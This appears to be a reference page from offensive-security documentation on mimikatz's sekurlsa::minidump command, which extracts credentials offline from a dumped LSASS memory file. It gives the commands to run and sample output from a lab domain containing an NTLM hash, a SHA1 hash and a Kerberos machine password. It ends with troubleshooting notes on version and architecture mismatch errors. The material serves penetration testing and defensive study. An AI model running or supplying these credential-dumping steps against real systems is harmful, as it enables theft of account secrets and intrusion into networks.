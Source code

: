 # minidump

`sekurlsa::minidump` can be used against a dumped LSASS process file and it does not require administrative privileges. It's considered as an "offline" dump. (cf. [LSASS Dumping Secret](https://www.thehacker.recipes/ad/movement/credentials/dumping/lsass))

```
mimikatz # sekurlsa::minidump file.dmp
```

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 3113147 (00000000:002f80bb)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 13/10/2021 20:58:06
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : WIN10$
         * Domain   : hacklab
         * NTLM     : 2c60cae5c83d27b349e98662de463dfc
         * SHA1     : fd6e6c6616156dac734f87d1eec386fa29537d89
        tspkg :
        wdigest :
         * Username : WIN10$
         * Domain   : hacklab
         * Password : (null)
        kerberos :
         * Username : WIN10$
         * Domain   : hacklab.local
         * Password : 8us/0-5sE3:_bd4\B+nEqpI#j,[avKJ'7l5RpDew]EEXya=tZq7g,jAifx%-sgv)Seto+@aPtf];gmb=gSE4K?"D\B+ CBW>vD5*/k71q'iI#V4$otG4t9R[
        ssp :
        credman :
        cloudap :       KO
```

**According to Benjamin the following errors might be raised:**

* `ERROR kuhl_m_sekurlsa_acquireLSA ; Minidump pInfos->MajorVersion (A) != MIMIKATZ_NT_MAJOR_VERSION (B)` minidump is opened from a Windows NT of another major version (_NT5_ vs _NT6_).
* `ERROR kuhl_m_sekurlsa_acquireLSA ; Minidump pInfos->ProcessorArchitecture (A) != PROCESSOR_ARCHITECTURE_xxx (B)` minidump is opened from a Windows NT of another architecture (_x86_ vs _x64_).
* `ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000002)` The minidump file is not found (check path).
